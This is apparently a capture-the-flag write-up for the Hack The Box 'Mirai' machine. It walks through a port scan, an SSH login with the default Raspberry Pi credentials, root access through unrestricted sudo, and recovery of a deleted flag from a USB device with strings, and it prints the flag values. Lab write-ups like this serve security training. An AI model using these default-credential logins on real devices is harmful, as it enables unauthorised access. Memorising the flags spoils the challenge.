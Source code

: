 ```yaml
---
tags:
  - linux
---
```

# HTB: [Mirai](https://app.hackthebox.com/machines/Mirai)

## Enumeration

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain      dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http        lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
388/tcp   filtered unidata-ldm
1728/tcp  open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
20850/tcp filtered unknown
25173/tcp filtered unknown
32400/tcp open     http        Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
37158/tcp filtered unknown
62763/tcp filtered unknown
62807/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

Looks like [Pi-hole](https://en.wikipedia.org/wiki/Pi-hole) on port 80, judging by the HTTP header:

```console
$ curl -Lsi http://$t
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Tue, 03 Oct 2023 22:42:24 GMT
Server: lighttpd/1.4.35
```

## Exploitation

I can infer that Pi-hole is running on a Raspberry Pi device, probably [Raspbian](https://www.raspbian.org/).

I try the default credentials of `pi:raspberry`:

```console
$ ssh pi@$t
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
ff8377[...]
```

## Privilege Escalation

`sudo` is wide open for the user `pi`:

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo -i
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```

The usual `root.txt` file drops a big hint:

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

And the USB filesystem contains another hint:

```console
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Running `strings` on the USB device file reveals the `root` flag:

```console
root@raspberrypi:/tmp# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
